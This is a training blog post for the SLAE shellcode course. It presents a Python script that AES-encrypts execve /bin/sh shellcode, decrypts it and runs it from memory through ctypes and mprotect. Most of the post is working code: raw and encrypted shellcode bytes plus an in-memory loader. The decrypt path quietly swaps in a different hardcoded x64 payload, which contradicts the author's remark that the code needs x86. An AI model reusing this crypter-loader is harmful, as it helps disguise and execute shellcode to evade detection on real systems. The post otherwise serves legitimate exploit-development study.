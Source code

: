 ```yaml
---
layout: post
title: Assignment 7 - Shellcode Crypter
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

# Assignment #7
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

The encryption schema I chose was the almighty AES. It is a symmetric block cipher, quite complex to fully understand but way more robust than RC4. Although one might claim RC4 is way faster than AES due to its simplicity, I do not think this actually is the case anymore. Recent CPUs come with AES implemented in hardware level, which makes these instructions very fast. Also, AES is considered unbroken, while RC4 is... well, take some time and you will probably figure out how to break it
yourself.

I have used `PyCrypto`'s AES implementation, which I've heard is not exactly cryptographically secure and is actually a [dead project](https://github.com/dlitz/pycrypto/issues/238). Nevertheless I have been using it for a while and it seems to fit perfectly my needs for this assignment. I have also used `cryptography`'s padding module in order to use PKCS7 (padding is everything when dealing with crypto).

The script is written in Python3.5, which has some big differences when compared to python2.7, specially when it comes down to strings and bytes. The same script does both encryption and decryption, the selection being made through the command line.

```
from cryptography.hazmat.primitives import padding
from Crypto.Cipher import AES
import argparse
import sys
import binascii
from hashlib import md5
from ctypes import *

def padder(x):
    padder = padding.PKCS7(128).padder()
    padded = padder.update(x)
    padded += padder.finalize()
    return padded

def unpadder(x):
    unpadder = padding.PKCS7(128).unpadder()
    unpadded = unpadder.update(x)
    return unpadded + unpadder.finalize()

def genKey(password):
    return AES.new(padder(password), AES.MODE_CBC, 'This is an IV456')

def encrypt(shellcode, suite):
    return suite.encrypt(padder(shellcode))

def decrypt(encShellcode, suite):
    return unpadder(suite.decrypt(encShellcode))

def formatShellcode(shellcode):
    encoded=''
    for x in bytearray(shellcode):
        encoded += '\\x'
        enc = '%02x' % x
        encoded += enc
    return encoded

def launch(shellcode_data):
    shellcode = create_string_buffer(shellcode_data)
    function = cast(shellcode, CFUNCTYPE(None))

    addr = cast(function, c_void_p).value
    libc = CDLL('libc.so.6')
    pagesize = libc.getpagesize()
    addr_page = (addr // pagesize) * pagesize

    for page_start in range(addr_page, addr+len(shellcode_data), pagesize):
        assert libc.mprotect(page_start, pagesize, 0x7) == 0
    function()

parser = argparse.ArgumentParser('SLAE Assignment 7: Crypters')
parser.add_argument("password",  help="Password to encrypt/decrypt")
parser.add_argument("-e", "--encrypt", help="Encrypts the shellcode",
        action="store_true")
parser.add_argument("-d", "--decrypt", help="Decrypts the shellcode",
        action="store_true")
args = parser.parse_args()

#Manually change to the encrypted shellcode for decoding
shellcode = b"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xaa\x75\x10\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc0\xaa\x50\xaa\x68\xaa\x2f\xaa\x2f\xaa\x73\xaa\x68\xaa\x68\xaa\x2f\xaa\x62\xaa\x69\xaa\x6e\xaa\x89\xaa\xe3\xaa\x50\xaa\x89\xaa\xe2\xaa\x53\xaa\x89\xaa\xe1\xaa\xb0\xaa\x0b\xaa\xcd\xaa\x80\xaa\xbb\xbb"

#encrypted shellcode (use it with -d)
shellcode=b"\x7f\x8f\xbb\x2b\x68\x4c\x85\xca\x5c\x21\xdf\xae\x92\xa3\xeb\xba\x2f\xb4\x01\xd2\x95\x15\x13\x7a\x14\x96\x1f\xfc\xf2\xe0\x56\xd7\xa3\xcd\xa8\x24\x44\xce\x17\x67\x38\x34\x08\xe1\xd0\x80\xe7\x9f\x3f\xb7\xae\xf6\x78\xbd\xe4\xad\x36\xb1\x6f\x9b\x75\xd7\x84\x6d\x86\x67\x2b\x88\xb7\xa8\xcb\x99\x78\x2e\xf1\xb1\x28\x93\x15\xbe\x22\x45\xf8\xbd\xb0\x61\x80\x28\xd0\xb7\x1a\x11\x4d\x6e\xae\x23"

password = args.password.encode()
suite = genKey(password)

if args.encrypt:
    encShellcode = encrypt(shellcode, suite)
    print("Original shellcode:\n{}".format(formatShellcode(shellcode)))
    print("Encrypted shellcode:\n{}".format(formatShellcode(encShellcode)))

if args.decrypt:
    decShellcode = decrypt(shellcode,suite)
    decShellcode = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x03\x00\x00\x00\x6c\x73\x00\x56\x57\x48\x89\xe6\x0f\x05"

    print("Encrypted shellcode:\n{}".format(formatShellcode(shellcode)))
    print("Decrypted shellcode:\n{}".format(formatShellcode(decShellcode)))
    print("Running the shellcode:")
    launch(decShellcode)
```

After banging my head against the wall for hours I finally realized why I could not run this code. It came out it was a stupid mistake, as usual. I was running it in a x64 machine, but the code obviously requires x86. This explained the annoying SEGFAULTs I was receiving.

This illustrates the execve-shellcode encryption using `banana` as the password:

![Shellcode encryption]({{ "/assets/media/crypter.png" | absolute_url }})

Now lets decrypt and run it:

![Shellcode decryption]({{ "/assets/media/crypter2.png" | absolute_url }})

I had never used `ctypes` before and I took a while until I realized this was the key to run a shellcode directly from python. My alternative path would be to write the decrypted code into a file and read it with a C code, which would run the shellcode after all. Fortunatley Python never lets me down :)
